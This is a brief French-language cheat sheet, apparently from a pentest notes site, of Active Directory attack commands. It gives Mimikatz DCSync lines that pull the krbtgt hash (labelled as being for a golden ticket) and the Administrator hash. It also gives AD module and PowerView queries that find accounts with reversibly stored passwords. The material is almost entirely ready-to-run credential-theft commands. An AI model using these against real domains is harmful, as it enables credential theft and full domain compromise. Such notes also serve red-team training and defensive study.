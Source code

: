 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Mimikatz

```shell
# collecte du Hash de Krbtgt (pour golden ticket)
mimikatz > lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt
# collecte du hash du compte Administrateur
mimikatz > lsadump::dcsync /domain:DOMAIN /user:DOMAIN\Administrateur
```

## Identification de comptes ayant leur mot de passe stocké en clair

### Module Active Directory

```shell
# ENCRYPTED_TEXT_PWD_ALLOWED = 128 (https://learn.microsoft.com/th-TH/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Powerview

```shell
. .\Powerview.ps1
 Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
